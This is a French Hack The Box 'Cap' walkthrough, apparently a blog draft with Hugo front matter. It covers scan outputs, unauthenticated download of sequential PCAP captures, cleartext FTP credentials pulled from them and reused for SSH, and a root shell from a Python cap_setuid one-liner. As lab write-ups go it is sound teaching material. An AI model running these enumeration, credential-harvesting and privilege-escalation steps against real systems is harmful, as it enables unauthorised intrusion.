



---

# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Cap — HTB Easy Writeup & Walkthrough"
linkTitle: "Cap"
slug: "cap"
date: 2026-01-29T10:42:12+01:00
#lastmod: 2026-01-29T10:42:12+01:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "PCAP exposés, identifiants en clair, accès SSH, puis élévation root via CAP_SETUID sur Python."
description: "Writeup Cap (HTB Easy) : énumération, analyse de PCAP exposés, récupération d’identifiants, accès SSH, puis escalade via CAP_SETUID sur Python."
tags: ["Hack The Box","HTB Easy","linux-privesc","SSH","Credential Reuse","Linux-Capabilities","Python"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "HTB Cap (Easy) : analyse de PCAP exposés, récupération d’identifiants en clair, puis élévation root via CAP_SETUID sur Python."
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Cap"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Cap> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine **Cap** est un challenge **Hack The Box – Easy** qui met l’accent sur une **énumération méthodique** et l’analyse précise d’une **application web custom**.

Ici, tu ne trouves ni vulnérabilité évidente ni CMS classique : **tout repose sur l’observation du comportement réel de l’application**.

Dans ce writeup, tu pars d’une surface d’attaque très limitée (FTP, SSH et HTTP), puis tu identifies un mécanisme de capture réseau accessible sans authentification.

L’analyse de fichiers **PCAP exposés publiquement** permet ensuite de récupérer des identifiants transmis en clair, menant à une **prise de pied via SSH**, puis à une **escalade de privilèges** liée à une mauvaise configuration des **Linux capabilities**.

Ce challenge illustre bien l’importance de la méthode, de l’observation et du raisonnement dans un CTF Hack The Box, même lorsque la surface d’attaque paraît minimale.

---

## Énumération



### Scan initial

Le scan initial TCP complet (scans_nmap/full_tcp_scan.txt) te révèle les ports ouverts suivants :


```bash
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt cap.htb
Nmap scan report for cap.htb (10.129.x.x)
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 7.11 seconds


```


### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée ***\*FTP/SMB\**** si l’un des services suivants est détecté :

- **FTP** sur le port **21**

- **SMB** sur le port **139** et/ou **445**

Résultat (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p21 --script=ftp-anon,ftp-syst --script-timeout=30s -T4 -oN scans_nmap/enum_ftp_smb_scan.txt cap.htb
Nmap scan report for cap.htb (10.129.x.x)
Host is up (0.0070s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 2.98 seconds

```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Résultat (scans_nmap/aggressive_vuln_scan.txt) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour cap.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"21,22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "cap.htb"

# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p21,22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt cap.htb
Nmap scan report for cap.htb (10.129.x.x)
Host is up (0.0097s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   58.16 ms 10.10.x.x
2   7.01 ms  cap.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 16.02 seconds

```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p21,22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt cap.htb
Nmap scan report for cap.htb (10.129.x.x)
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 3
|     /static/css/
|       css: 6
|     /static/images/author/
|       png: 1
|     /static/js/
|       js: 8
|     /static/js/vendor/
|       js: 1
|   Longest directory structure:
|     Depth: 3
|     Dir: /static/images/author/
|   Total files found (by extension):
|_    Other: 3; css: 6; js: 9; png: 1
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-headers: 
|   Server: gunicorn
|   Date: [date]
|   Connection: close
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 19386
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 37.10 seconds
```

Même en l’absence d’indices forts vers un CMS connu, ce scan permet de confirmer rapidement s’il existe une surface applicative standard déjà identifiable.

### Scan UDP rapide

Le script lance également un scan UDP rapide afin d’identifier d’éventuels services exposés (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt cap.htb
Nmap scan report for cap.htb (10.129.x.x)
Host is up (0.013s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 9.71 seconds

```


### Énumération des chemins web

Pour la découverte des chemins web, tu utilises le script dédié 

```bash
mon-recoweb cap.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` te permet d’identifier rapidement les chemins découverts, sans parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.2

Cible        : cap.htb
Périmètre    : /
Date début   : [date] 10:32:35

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://cap.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/cap.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://cap.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/cap.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/cap.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://cap.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/cap.htb/ffuf_files.json 2>&1 | tee scans_recoweb/cap.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://cap.htb/capture/ (CODE:302|SIZE:220)
http://cap.htb/data (CODE:302|SIZE:208)
http://cap.htb/data/ (CODE:302|SIZE:208)
http://cap.htb/ip (CODE:200|SIZE:17452)
http://cap.htb/ip/ (CODE:200|SIZE:17452)
http://cap.htb/netstat (CODE:200|SIZE:27270)

=== Détails par outil ===

[DIRB]
http://cap.htb/data (CODE:302|SIZE:208)
http://cap.htb/ip (CODE:200|SIZE:17452)
http://cap.htb/netstat (CODE:200|SIZE:27270)

[FFUF — DIRECTORIES]
http://cap.htb/capture/ (CODE:302|SIZE:220)
http://cap.htb/data/ (CODE:302|SIZE:208)
http://cap.htb/ip/ (CODE:200|SIZE:17452)

[FFUF — FILES]

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
mon-subdomains cap.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est identifié dans les résultats, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains cap.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : [date] 10:36:19
Domaine      : cap.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=19386 words=1065 (Host=y0dh1cgehh.cap.htb)
  Baseline#2: code=200 size=19386 words=1065 (Host=e0p92xa7m9.cap.htb)
  Baseline#3: code=200 size=19386 words=1065 (Host=jhw4u7z6ip.cap.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains cap.htb END ===


```


---

## Prise pied

La phase d’exploitation s’appuie sur les résultats de `mon-nmap`, `mon-recoweb` et `mon-subdomains` pour identifier les points d’entrée exploitables.

**Résultats réseau :**
- 21/tcp – FTP (vsftpd 3.0.3)
- 22/tcp – SSH (OpenSSH 8.2p1)
- 80/tcp – HTTP (Gunicorn)
- Aucun autre port exposé
- Aucun service exploitable en UDP
- Aucune vulnérabilité connue identifiée

**Résultats web :**
- 200 OK : `/ip`, `/netstat`
- 302 Redirect : `/data/`, `/capture/`
- Accès sans authentification
- Application minimaliste

**Résultats vhosts :**
- Aucun sous-domaine exploitable

### Bilan de l’énumération

- Surface d’attaque **très réduite**
- Aucune faille exploitable directement
- Le service **HTTP** est le seul point d’entrée pertinent

Tu analyses manuellement via l’interface web les chemins **`/ip`**, **`/netstat`**, **`/data/`** et **`/capture/`**.

L’exploitation repose sur la compréhension du fonctionnement de l’application web.
### Premières observations via l’interface web

Tu commences par analyser manuellement l’interface web afin de comprendre le fonctionnement réel de l’application.

Les différents menus permettent d’identifier rapidement leur rôle :

- **IP Configuration** affiche des informations réseau en lecture seule
- **Network Status** présente également des données sans interaction possible
- **Security Snapshot (5 Second PCAP + Analysis)** déclenche une capture réseau côté serveur



Les deux premiers menus sont **purement informatifs** : aucune interaction ni paramètre exploitable.

Le troisième menu introduit en revanche une **fonctionnalité active côté serveur**.

Lorsque tu déclenches un snapshot, l’application redirige vers une URL de la forme :

```text
http://cap.htb/data/<id>
```



En analysant le code source de la page, tu vois que le bouton **Download** pointe vers `/download/<id>`, ce qui te permet d’identifier l’endpoint de téléchargement des fichiers PCAP.

Tu identifies ici un fonctionnement simple :

- un identifiant `<id>`
- une capture réseau associée
- un téléchargement direct

### Analyse des endpoints identifiés

> Ces observations te montrent que les répertoires `/capture/` et `/data/` sont directement impliqués dans la gestion des captures, ce qui oriente naturellement ton analyse vers ces deux endpoints.

**Analyse de /capture/**

```bash
mon-recoweb cap.htb/capture/ 
```

Les résultats montrent que **`/capture/`** n’expose aucune ressource exploitable.

Tu peux écarter cette piste.

**Analyse de /data/**

```bash
mon-recoweb cap.htb/data/ 
```
Lors de l’énumération avec **ffuf**, tu constates rapidement que la majorité des chemins testés renvoient une réponse **302** avec une **taille strictement identique (208 octets)**.

Ce comportement correspond à un **soft-404 applicatif**, masquant les ressources réellement intéressantes.

```bash
...
usps                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 89ms]
versand                 [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 82ms]
valencia                [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 88ms]
videochat               [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 82ms]
vacation-rentals        [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 91ms]
uploaded_temp           [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 93ms]
user_                   [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 95ms]
vbforum                 [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 90ms]
...
```

Plutôt que de filtrer sur le code HTTP (302), tu filtres sur la taille de réponse :

```bash
mon-recoweb cap.htb/data/ --fs 208
```

Ce filtrage permet d’obtenir une sortie nettement plus lisible, tout en conservant l’intégralité des ressources réellement exposées.

Les résultats révèlent plusieurs chemins valides :

```bash
/data/0
/data/1
/data/2
/data/3
/data/4
...
```

Tu retrouves également des variantes avec padding (`00`, `000`, etc.), mais elles correspondent au même mécanisme.

Le scan de `/data/` confirme le comportement observé via l’interface web :

- les identifiants sont **simples et séquentiels**
- les ressources sont **accessibles directement**
- aucun contrôle d’accès n’est appliqué

Tu peux donc accéder aux captures sans passer par l’interface.

La présence de **`/data/0`** indique qu’une capture existait déjà avant tes tests.

Tu peux maintenant récupérer ces fichiers et analyser leur contenu.


### Téléchargement des PCAP

Plutôt que de passer par l’interface web, tu récupères directement les fichiers **PCAP** en ligne de commande.

**Vérifier l’existence d’une capture**

Pour savoir si une capture existe, tu peux interroger directement l’URL correspondante :

```bash
curl -I http://cap.htb/data/<id>
```

- `200 OK` → la capture existe
- `404 Not Found` → la capture n’existe pas

**Télécharger le fichier PCAP**

Si la capture existe, tu peux la récupérer via la route de téléchargement :

```bash
mkdir -p pcaps

curl http://cap.htb/download/<id> -o pcaps/<id>.pcap
```


**Récupération de `0.pcap`**

```bash
curl -I http://cap.htb/data/0
```


```
HTTP/1.1 200 OK
Server: gunicorn
Date: [date] 08:19:52 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 17147
```

La réponse **`200 OK`** confirme que la capture existe.

Tu peux alors la télécharger :

```bash
curl http://cap.htb/download/0 -o pcaps/0.pcap
```


```
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100   9935 100   9935   0      0 139.1k      0
```


**Récupération d'autres captures**

Télécharge ensuite d’autres captures (`1.pcap`, `2.pcap`, …) afin de les comparer avec `0.pcap` et identifier d’éventuelles différences intéressantes.

> Note : Le nombre de fichiers dépend des captures que tu as générées via l’interface web.

### Analyse des fichiers récupérés

```
ls -l pcaps/  

total 20
-rwxrwxrwx 1 kali kali 9935 [date] 10:52 0.pcap
-rwxrwxrwx 1 kali kali   24 [date] 11:01 1.pcap
-rwxrwxrwx 1 kali kali   24 [date] 11:01 2.pcap
```

Tu observes immédiatement une différence :

- **`0.pcap`** → ~10 KB → capture réelle
- **`1.pcap`**, `2.pcap`, `3.pcap` → 24 bytes → fichiers vides ou non exploitables

Les fichiers de petite taille ne contiennent pas de trafic utile.

Tu concentres donc l’analyse sur **`0.pcap`**, seule capture exploitable.

### Analyse de 0.pcap

Pour analyser **`0.pcap`**, tu extrais les chaînes lisibles du fichier puis tu filtres les termes liés à l’authentification et aux identifiants, par exemple à l’aide de la recette .

```bash
strings pcaps/0.pcap | grep -iEn "sudo|root|permission|owner|chmod|chown|suid|uid|gid|user|pass|login|auth|credential|creds"
```

Tu obtiens notamment :

```bash
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
.form-signin input[type="password"] {
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

Ces lignes correspondent à une **authentification FTP en clair** capturée dans le trafic réseau.

Tu récupères directement un couple valide :

```bash
nathan:Buck3tH4TF0RM3!
```

Dans un contexte CTF, ce type d’identifiants doit être testé sur les services accessibles.

Il est fréquent que des credentials exposés soient **réutilisés**, notamment pour un accès **SSH**.

### Connexion SSH

Tu testes les identifiants récupérés (**`nathan:Buck3tH4TF0RM3!`**) sur le service SSH :

```bash
ssh nathan@cap.htb  
```

La connexion fonctionne immédiatement.

Tu confirmes l’accès en listant le contenu du répertoire personnel :

```bash
nathan@cap:~$ ls -l
total 4
-r-------- 1 nathan nathan 33 [date] 14:34 user.txt
```

### user.txt

Le fichier **`user.txt`** est présent et accessible :

```bash
nathan@cap:~$ cat user.txt
70e3xxxxxxxxxxxxxxxxxxxxxxxx4cdd
```

Cet accès valide la **prise de pied** sur la machine.

---

## Escalade de privilèges




### Sudo -l

Tu commences par vérifier les droits `sudo` de l’utilisateur courant :


```bash
sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.

```

Aucun droit `sudo` n’est disponible. Cette piste est écartée.

### Analyse avec pspy64

`pspy64` ne révèle **aucune tâche planifiée exploitable** ni aucun script exécuté par `root` que tu pourrais influencer.

### Analyse des Linux capabilities

Tu poursuis avec l’analyse des capabilities :

```bash
getcap -r / 2>/dev/null
```


```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Parmi ces résultats, un élément ressort immédiatement :

**`/usr/bin/python3.8`** possède la capability **`cap_setuid`**.

Cette capability permet de **modifier l’UID effectif d’un processus**.

Dans ce contexte, elle permet de passer en **UID 0 (root)** et donc d’exécuter du code avec les privilèges les plus élevés.

Autrement dit, tu n’as pas besoin ici de binaire SUID ni d’accès `sudo` : **la capability suffit pour élever tes privilèges**.

En consultant le site **GTFOBins**, tu retrouves exactement ce cas avec Python et `CAP_SETUID`, basé sur l’appel à `setuid(0)` suivi du lancement d’un shell.




Tu peux alors exécuter la commande suivante :

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
```

Cette commande :

- force l’UID effectif à **root** avec `os.setuid(0)`
- lance un **shell interactif** avec `os.execl("/bin/sh", "sh")`

Le résultat est immédiat :

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
# whoami
root
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# 
```

Tu obtiens ainsi un **shell root**, ce qui valide l’escalade de privilèges.

### root.txt

```bash
# cat /root/root.txt
a9d0xxxxxxxxxxxxxxxxxxxxxxxxxxx50eb
```

L’obtention d’un shell **root** confirme l’élévation de privilèges et marque la **fin du CTF**.

## Conclusion

La machine **Cap** montre qu’un **CTF Hack The Box Easy** peut reposer sur une surface d’attaque minimale tout en exigeant une **analyse méthodique et rigoureuse**.

Ici, aucune vulnérabilité évidente : tout repose sur l’observation du comportement de l’application, la découverte d’une **exposition de captures réseau accessibles sans authentification**, puis l’exploitation d’identifiants transmis en clair.

L’escalade de privilèges met en évidence une erreur de configuration critique : l’attribution de **Linux capabilities** à un interpréteur. Cette mauvaise pratique permet une compromission complète du système **sans sudo ni binaire SUID**.

Au final, **Cap** est un excellent exercice pour consolider les fondamentaux : énumération, analyse applicative et compréhension des mécanismes de privilèges sous Linux.

Ce scénario montre que, dans un CTF comme en environnement réel, une mauvaise configuration et une exposition de données suffisent souvent à compromettre un système.

---


